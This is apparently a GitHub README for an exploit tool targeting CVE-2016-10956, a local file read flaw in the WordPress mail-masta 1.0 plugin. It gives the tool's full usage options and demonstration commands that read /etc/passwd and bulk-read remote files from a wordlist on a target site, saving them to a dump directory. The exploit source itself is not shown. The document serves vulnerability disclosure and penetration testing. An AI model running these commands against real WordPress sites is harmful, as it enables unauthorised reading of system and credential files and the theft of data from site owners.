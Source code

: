 # Mail Masta - Local File Read (CVE-2016-10956)

<p align="center">
  <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/CVE-2016-10956_mail_masta">
  <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
  <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
  <br>
</p>


The mail-masta plugin 1.0 for WordPress has local file read in `count_of_send.php` and `csvexport.php`.

![](./.github/3.png)

## Usage

```
$ ./CVE-2016-10956_mail_masta.py -h
[+] Mail Masta - Local File Read (CVE-2016-10956)

usage: CVE-2016-10956_mail_masta.py [-h] [-v] [-s] -t TARGET_URL [-f FILE | -F FILELIST] [-D DUMP_DIR] [-k] [-r]

Description message

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbose mode
  -s, --only-success    Only print successful read file attempts.
  -t TARGET_URL, --target TARGET_URL
                        URL of the wordpress to connect to.
  -f FILE, --file FILE  Remote file to read.
  -F FILELIST, --filelist FILELIST
                        File containing a list of paths to files to read remotely.
  -D DUMP_DIR, --dump-dir DUMP_DIR
                        Directory where the dumped files will be stored.
  -k, --insecure        Allow insecure server connections when using SSL (default: False)
  -r, --raw             Raw dump of the file without php base64 wrapper (default: False)

```

## Demonstration

### Read a specific remote file

```
./CVE-2016-10956_mail_masta.py -t http://192.168.56.106/wp/ -f /etc/passwd
```

![](./.github/1.png)

### Read specific remote files from a wordlist

```
./CVE-2016-10956_mail_masta.py -t http://192.168.56.106/wp/ -F wordlist
```

![](./.github/3.png)

### Read specific remote files from a wordlist and only printing found files

```
./CVE-2016-10956_mail_masta.py -t http://192.168.56.106/wp/ -F wordlist --only-success
```

![](./.github/4.png)

## References
 - https://nvd.nist.gov/vuln/detail/CVE-2016-10956
 - https://cxsecurity.com/issue/WLB-2016080220
 - https://wordpress.org/plugins/mail-masta/#developers
 - https://wpvulndb.com/vulnerabilities/8609
